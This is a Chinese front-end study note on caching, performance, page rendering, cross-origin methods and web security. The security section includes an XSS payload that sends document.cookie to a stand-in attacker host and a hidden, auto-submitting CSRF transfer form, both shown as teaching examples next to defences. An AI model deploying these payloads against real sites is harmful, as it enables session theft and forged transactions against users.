


# 通识

## 命令式编程与声明式编程

命令式编程（Imperative）：通过详细的命令告诉机器如何去处理一件事情以达到你想要的结果

声明式编程（ Declarative）：只告诉你想要的结果，机器自己摸索过程

举个打车的例子：

命令式编程：详细描述具体步骤

-   这个路口直行
-   下个路口左转
-   往前开 500 米

声明式编程：只告诉结果

-   请到 XX 医院

## 前端性能优化

-   路由懒加载（从静态引用方式改为函数的形式动态引入，把各自的路由文件分别打包，只有在解析给定的路由时，才会下载路由组件）
-   按需加载（例如 vue-cli3 安装 babel-plugin-component，按需加载 element-ui）
-   避免重复依赖（webpack4 的 SplitChunks，把多次复用抽离出来）
-   文件压缩 （js、css、图片），减少请求返回的数据量
-   gzip（需要服务器做相应的配置，如果发送请求的浏览器支持 gzip，就发送给它 gzip 格式的文件）
-   css 拆分（css 拆分后体积变小，但文件数量增加，例如首页请求多份 css 文件时会花费不少请求时间，是否使用看具体情况）
-   静态资源 cdn 分发：客户端可以通过最佳的网络链路加载静态资源
-   缓存
-   优化资源加载（css 放在顶部（head 中）：优先渲染、js 放在底部：避免阻塞、减少 DOM 元素数量）

参考：

-   [前端性能优化的三个维度](https://segmentfault.com/a/1190000019499007)
-   [前端性能优化的七大手段](https://www.cnblogs.com/xiaohuochai/p/9178390.html)

## 缓存

### 缓存位置

缓存位置上来说分为四种，并且各自有优先级，当依次查找缓存且都没有命中的时候，才会去请求网络

#### 1.Service Worker

Service Worker 是运行在浏览器背后的独立线程，一般可以用来实现缓存功能。传输协议必须为 HTTPS，Service Worker 的缓存与浏览器其他内建的缓存机制不同，它可以让我们自由控制缓存哪些文件、如何匹配缓存、如何读取缓存，并且缓存是持续性的

#### 2.Memory Cache

内存中的缓存，读取高效，但持续时间短，一旦关闭 Tab 页面，内存中的缓存也就被释放了

#### 3.Disk Cache

磁盘中的缓存，读取速度慢，但比 Memory Cache 容量和存储实效性上好

#### 4.Push Cache

HTTP/2 中的内容，当前三种都没命中时，才会被使用。只在会话（Session）中存在，一旦会话结束就被释放，并且缓存时间也很短暂

### 缓存策略

分为强缓存和协商缓存，缓存策略都是通过设置 HTTP Header 来实现的

#### 强缓存

浏览器在规定时间内，不用询问服务器，直接使用本地缓存，请求返回状态码 200，Size 显示 from disk cache 或 from memory cache，可以通过设置两种 HTTP Header 实现：Expires 和 Cache-Control

##### 1.Expires

缓存过期时间，用来指定资源到期的时间（绝对时间），是服务器端的具体的时间点，需结合 Last-modified 使用，Expires 是 HTTP/1 的产物，受限于本地时间，如果修改了本地时间（或者客户端时间与服务端时间不同步），可能会造成缓存失效

##### 2.Cache-Control

HTTP/1.1 出的，它的值是一个相对时间，在这个相对时间内用强缓存，比如当 Cache-Control:max-age=300 时，则代表在这个请求正确返回时间（浏览器也会记录下来）的 5 分钟内再次加载资源，就会命中强缓存，Cache-Control 优先级高于 Expires

Cache-Control 可以在请求头或者响应头中设置，并且可以组合使用多种指令


#### 协商缓存

协商缓存就是强制缓存失效后，浏览器会向服务端发起 http 请求，然后服务端告诉浏览器文件未改变，让浏览器使用本地缓存（浏览器会带着 if-Modified-Since 字段询问服务器是否使用缓存，服务器根据传来的 if-Modified-Since 时间来判断是否需要使用缓存），返回状态码 304

##### 1.Last-Modified 和 If-Modified-Since

浏览器在第一次访问资源时，服务器返回资源的同时，在响应头中添加 Last-Modified，值是这个资源在服务器上的最后修改时间，浏览器下一次请求这个资源，浏览器检测到有 Last-Modified 这个 header，于是添加 If-Modified-Since 这个 header，值就是 Last-Modified 中的值；服务器再次收到这个资源请求，会根据 If-Modified-Since 中的值与服务器中这个资源的最后修改时间对比，如果没有变化，返回 304 和空的响应体，直接从缓存读取，如果 If-Modified-Since 的时间小于服务器中这个资源的最后修改时间，说明文件有更新，于是返回新的资源文件和 200

存在问题：

1.如果本地打开缓存文件，即使没有对文件进行修改，但还是会造成 Last-Modified 被修改

2.Last-Modified 只能以秒计时，如果在不可感知的时间内修改完成文件，那么服务端会认为资源还是命中了，不会返回正确的资源

##### 2.ETag 和 If-None-Match

针对 Last-Modified 存在的问题，HTTP / 1.1 出现了 ETag 和 If-None-Match

Etag 是服务器响应请求时，返回当前资源文件的一个唯一标识(由服务器生成)，只要资源有变化，Etag 就会重新生成

浏览器在下一次加载资源向服务器发送请求时，会将上一次返回的 Etag 值放到请求头里的 If-None-Match 里，服务器只需要比较客户端传来的 If-None-Match 跟自己服务器上该资源的 ETag 是否一致，就能很好地判断资源相对客户端而言是否被修改过了

ETag 优先级比 Last-Modified 高

### 缓存机制

强制缓存优先于协商缓存进行，若强制缓存(Expires 和 Cache-Control)生效则直接使用缓存，若不生效则进行协商缓存(Last-Modified / If-Modified-Since 和 Etag / If-None-Match)，协商缓存由服务器决定是否使用缓存，若协商缓存失效，那么代表该请求的缓存失效，返回 200，重新返回资源和缓存标识，再存入浏览器缓存中；生效则返回 304，继续使用缓存


### 选择缓存策略

-   不需要缓存的资源，可以使用 Cache-control: no-store ，表示该资源不需要缓存
-   频繁变动的资源，可以使用 Cache-Control: no-cache 并配合 ETag 或者 Last-Modified 来验证资源是否有效，虽然不能节省请求数量，但是能显著减少响应数据大小
-   不常变化的资源，可以给它们的 Cache-Control 配置一个很大的 max-age=31536000（一年）`Cache-Control: max-age=31536000`，这样浏览器之后请求相同的 URL 会命中强制缓存。而为了解决更新的问题，就需要在文件名（或者路径）中添加 hash，版本号等动态字符，之后更改动态字符，从而达到更改引用 URL 的目的，让之前的强制缓存失效 (其实并未立即失效，只是不再使用了而已）。

### 用户行为触发的缓存策略

-   打开网页，地址栏输入地址——查找 disk cache 中是否有匹配。如有则使用；如没有则发送网络请求
-   普通刷新（F5）——因为 Tab 并没有关闭，因此 memory cache 是可用的，会被优先使用(如果匹配的话)，其次才是 disk cache
-   强制刷新 (Ctrl + F5）——浏览器不使用缓存，因此发送的请求头部均带有 Cache-control:no-cache（为了兼容，还带了 Pragma:no-cache），服务器直接返回 200 和最新内容

参考：

-   [深入理解浏览器的缓存机制](https://www.jianshu.com/p/54cc04190252)

## 输入 url 到页面渲染过程

1.读取缓存，搜索自身的 DNS 缓存。(如果 DNS 缓存中找到 IP 地址就跳过了接下来查找 IP 地址步骤，直接访问该 IP 地址。)

2.DNS 解析，通过域名查询到具体的 IP

3.与服务器建立连接（tcp 三次握手=>浏览器发送 http 请求）(浏览器获得完整的服务器 IP 地址后，域名解析环节完成。之后，浏览器通过 IP 地址查找到对应的服务器，并将用户发起的 http 请求发送给服务器。)

4.服务器处理并返回 http 报文

5.浏览器开始解析文件（HTML、CSS、JS）

6.构建 DOM 树、构建 CSSOM 树（CSS 规则树）、解析 JS

7.结合 DOM 树和 CSS 规则树，生成渲染树（Render 树），根据渲染树计算每一个节点的信息，根据计算好的信息绘制页面

8.调用 GPU 绘制，合成图层，将内容显示在屏幕上了（6、7、8: 构建 DOM 树 -> 渲染 -> 布局 -> 绘制）

9.断开连接：TCP 四次挥手



参考：

-   [https://dailc.github.io/2018/03/12/whenyouenteraurl.html](https://dailc.github.io/2018/03/12/whenyouenteraurl.html)
-   [当···时发生了什么？](https://github.com/skyline75489/what-happens-when-zh_CN)

## 跨域

### JSONP

在 HTML 标签里，一些标签比如 script、img 这样的获取资源的标签是没有跨域限制的，JSONP 使用简单且兼容性不错，但是只限于 get 请求

例如通过 `<script>` 标签指向一个需要访问的地址并提供一个回调函数来接收数据

```html
<script src="http://domain/api?param1=a&param2=b&callback=jsonp"></script>
<script>
    function jsonp(data) {
        console.log(data);
    }
</script>
```

### document.domain

该方式只能用于二级域名相同的情况下（主域名相同，子域名不同），比如 a.test.com 和 b.test.com 适用于该方式

只需要给页面添加 document.domain = 'test.com' 表示二级域名都相同就可以实现跨域

### postMessage

这种方式通常用于获取嵌入页面中的第三方页面数据。一个页面发送消息，另一个页面判断来源并接收消息

```js
// 发送消息端
window.parent.postMessage('message', 'http://test.com');

// 接收消息端
var mc = new MessageChannel();
mc.addEventListener('message', event => {
    var origin = event.origin || event.originalEvent.origin;
    if (origin === 'http://test.com') {
        console.log('验证通过');
    }
});
```

### CORS

服务端设置 Access-Control-Allow-Origin

### 代理

开发环境设置代理，将目标位置的请求代理为前端服务本地的请求，例如 webpack 的 devServer.proxy（是由 http-proxy-middleware 来实现的）

项目中 webpack.config.js 的配置

```js
devServer: {
    historyApiFallback: true,
    noInfo: true,
    overlay: true,
    proxy: {
        '/api': {
            target: 'http://localhost:8081/myserver',
            pathRewrite: {
                '^/api': ''
            }
        }
    }
}
```

但这仅在开发环境中可以使用，生产环境中需要 nginx 的反向代理，将目标服务端位置代理为本地服务路径

参考：

-   [https://yuchengkai.cn/docs/frontend/browser.html#%E8%B7%A8%E5%9F%9F](https://yuchengkai.cn/docs/frontend/browser.html#%E8%B7%A8%E5%9F%9F)
-   [不要再问我跨域的问题了](https://segmentfault.com/a/1190000015597029)
-   [Vue 兼容 ie9 的全面解决方案](https://juejin.im/post/5b2868b46fb9a00e6f65f87e)

## web 安全

### XSS

跨站脚本攻击（cross-site scripting），攻击者通过某种方式将恶意代码注入到网页上，然后其他用户观看到被注入的页面内容后会受到特定攻击

#### 攻击手段：

1. 劫持 cookie

页面中有一个评论输入，输入后会因为后台的漏洞，没有过滤特殊字符，直接明文保存到数据库中，然后展示到网页时直接展示明文数据，例如：

```html
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<form action="saveComment.jsp" method="post">
    请输入评论内容：<br />
    <input name="content" type="text" />
    <input type="submit" value="确认" />
</form>
```

然后攻击者分析后，输入

```html
<script>
    window.open('http://www.attackpage.com/record?secret=' + document.cookie);
</script>
```

由于没有过滤脚本，那么其它用户登陆后，在看到这篇文章时就会自动将他们的 cookie 信息都发送到了攻击者的服务器。
攻击者可以在 cookie（譬如 jsessionid 对应的 session）有效期内拿它们冒充用户操作。

需要注意，这里和 CSRF 的区别是，这里是拿到了 cookie 后主动冒充用户的，而 CSRF 中根本就不知 cookie，仅利用浏览器的隐式校验方式冒充用户

2. 伪造会话（基于 XSS 实现 CSRF）

同样是上面评论页面的示例

攻击者输入

```html

```

然后，接下来发生的故事就和 CSRF 中提到的一致。这种情况就是基于 XSS 而开展的 CSRF，也有人喜欢称之为 XSRF

需要注意，这里并没有自己拿到 cookie，而是 CSRF 中提到的利用浏览器的隐式验证机制来冒充用户。

3. 恶意代码执行

其实上面的 cookie 劫持以及会话伪造都算是恶意代码执行，为了区别，这里就专指前端的流氓 JS。

譬如前面的评论中的输入可以是：

市面上盛行的网页游戏弹窗等
干脆直接让这个页面卡死
无限循环

#### 防御手段：

-   输入过滤，过滤“<”、“>”、“/”等可能导致脚本注入的特殊字符，或者过滤“script”、“javascript”等脚本关键字，或者对输入数据的长度进行限制等等，还得考虑攻击者使用十六进制编码来输入脚本的方式。
-   输出进行编码，和输入过滤类似，不过是从输出上着手，数据输出到页面时，经过 HtmlEncoder 等工具编码，这样就不会存在直接输出可执行的脚本了
-   Cookie 设置 http-only，这样用脚本就无法获取 Cookie 了
-   Cookie 防盗，尽可能地避免在 Cookie 中泄露隐私，如用户名、密码等，或者，为了防止重放攻击，可以将 Cookie 和 IP 进行绑定，这样也可以阻止攻击者冒充正常用户的身份

### CSRF

跨站请求伪造（cross-site request forgery）

-   伪造用户身份操作



#### 攻击手段：

1. 譬如在网站内的图片资源中潜入恶意的转账操作

```html

```

2. 构建恶意的隐藏表单，并通过脚本提交恶意请求

```html
<iframe style="display: none;" name="csrf-frame"></iframe>
<form method="POST" action="http://www.bank.example/transfer" target="csrf-frame" id="csrf-form">
    <input type="hidden" name="toBankId" value="hello" />
    <input type="hidden" name="amount" value="1000000" />
    <input type="submit" value="submit" />
</form>
<script>
    document.getElementById('csrf-form').submit();
</script>
```

#### 防御手段：

-   验证 HTTP Referer 字段（非常简单，但是鉴于客户端并不可信任，所以并不是很安全）
    （防止 CSRF，检查 Referer 字段简单直接，但是其完全依赖浏览器发送正确的 Referer 字段。
    虽然 http 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，
    亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。）

-   在请求地址中添加 token 并验证
    （譬如 post 中，以参数的形式加入一个随机产生的 token）

参考：

-   [AJAX 请求真的不安全么？谈谈 Web 安全与 AJAX 的关系](https://segmentfault.com/a/1190000012693772)
